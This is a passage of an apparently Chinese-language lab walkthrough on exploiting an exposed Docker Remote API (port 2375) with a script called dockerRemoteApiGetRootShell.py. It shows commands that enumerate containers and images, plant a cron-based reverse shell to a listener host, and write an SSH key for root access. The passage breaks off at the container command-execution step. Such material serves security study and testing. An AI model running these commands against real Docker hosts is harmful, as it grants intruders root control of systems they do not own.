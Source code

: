 2. 查看所有的容器:

```
py -2 dockerRemoteApiGetRootShell.py -h 172.26.1.97 -p 2375 -a
```
截图：
![17.jpg](https://ae01.alicdn.com/kf/Uddc8fa961ffa4ae9a034c0547b0f6f17W.jpg)

3. 查看所有镜像：

```
py -2 dockerRemoteApiGetRootShell.py -h 172.26.1.97 -p 2375 -l
```
截图：
![18.jpg](https://ae01.alicdn.com/kf/Ucafb5443dc5544578c5b6fc117d7e624y.jpg)

4. 查看端口映射：

```
py -2 dockerRemoteApiGetRootShell.py -h 172.26.1.97 -p 2375 -L
```
截图：
![19.jpg](https://ae01.alicdn.com/kf/Ue6d374a459ec492b805ef7f187002ea4L.jpg)

我这里启动的docker并未映射端口，所以返回空白！

5. 利用脚本写定时任务反弹shell：

```
py -2 dockerRemoteApiGetRootShell.py -h 172.26.1.97 -p 2375 -C -i ubuntu:18.04 -H 172.26.1.156 -P 6666
```
截图：
![20.jpg](https://ae01.alicdn.com/kf/Ue4ba7df9c7644ce58809a55c254c2b9ev.jpg)

6. 利用脚本写ssh公钥：

编辑脚本

![21.jpg](https://ae01.alicdn.com/kf/Uf30a7ed52d0c4151b02a5dcc2da5c6abP.jpg)

执行脚本：

![22.jpg](https://ae01.alicdn.com/kf/U296d3c4f18544ffe9b2bd40d5fc85a55l.jpg)

登录截图：

![23.jpg](https://ae01.alicdn.com/kf/Ud3b3fa4e60474215811e380f480b2aa1z.jpg)

7. 在容器中执行命令

先获取到容器id：

![24.jpg](https://ae01.alicdn.com/kf/U2f574c3652a04e5192129371e206364ap.jpg)

然后选取一个容器（需要容器为up状态）进行执行命令：
